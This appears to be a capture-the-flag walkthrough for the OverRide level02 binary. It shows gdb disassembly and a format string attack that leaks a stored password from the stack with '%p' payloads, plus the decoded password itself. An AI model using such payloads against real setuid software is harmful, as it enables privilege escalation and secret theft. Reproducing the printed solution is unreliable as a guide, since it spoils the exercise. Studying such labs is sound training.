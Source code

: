 # Walkthrough

## Context

### Binary info

```bash
level02@OverRide:~$ ls
level02
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Username
--[ Password: Password
*****************************************
Username does not have access!
level02@OverRide:~$ file ./level02
./level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

An elf binary compiled for x86-64 arch with level03's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400814  main
...
```

Only 'main' present

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### 'main' dissassembly

```assembly
(gdb) disas main
Dump of assembler code for function main:
...
   0x0000000000400818 <+4>:     sub    $0x120,%rsp
...
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx
...
   0x000000000040083d <+41>:    rep stos %rax,%es:(%rdi)
...
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx
...
   0x000000000040085d <+73>:    rep stos %rax,%es:(%rdi)
...
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx
...
   0x000000000040087d <+105>:   rep stos %rax,%es:(%rdi)
...
   0x00000000004008a8 <+148>:   callq  0x400700 <fopen@plt>
...
   0x00000000004008e6 <+210>:   lea    -0xa0(%rbp),%rax
...
   0x0000000000400901 <+237>:   callq  0x400690 <fread@plt>
...
   0x0000000000400a8a <+630>:   callq  0x4006b0 <system@plt>
...
   0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax
...
   0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>
...
End of assembler dump.
```

Please refer to the [source.c](./source.c) for better understanding

From disassembled code we can see 0x120 stack frame size and the zeroing instructions which means we have 3 buffers. First will be used as login buffer, second as actual password buffer and the last as password input buffer. Then we can how the program is reading the actual password but does nothing with it. Even 'system' call is present but(spoiler alert) we're not going to need it. And the last and the most interesting part is printf call which uses our first buffer as format string thus allowing is to use format string attack.

## Exploit

We know where the actual password stored, its on -0xa0(%rbp). This is exactly 0x30(48) bytes further then our first buffer. Let's use printf to examine the stack to calculate our first buffer start offset

### Format string buffer offset

```bash
level02@OverRide:~$ python -c "print '\xff\xff\xff\xff\xff\xff\xff\xff' + '%p|' * 30" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
��������0x7fffffffe4f0|(nil)|(nil)|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6e8|0x1f7ff9a08|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0xffffffffffffffff|0x70257c70257c7025|0x257c70257c70257c| does not have access!
```

As we can see our first buffer starts at 28th segment. Let's calculate the second buffer location from it

### Actual password buffer offset

We know that the difference between first and second buffers is 0x30 bytes. Because our format string if further from printf call we need to substract this difference from first buffer offset which gives us 28 - (48 / 8) == 22.


### Reading memory where actual password is stored

We've calculated exact location of memory where actual password is stored. The length of the password is 40 bytes. So we need to read 5 segments with 8 bytes in each (5 * 8 = 40)

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password: 1
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

So the resulted string is our password! But it is in hex format, let's use python to decode it

### Decoding password

```python
raw_password = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"
"".join([p.decode("hex")[::-1] for p in raw_password.split("0x")])
'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'
```

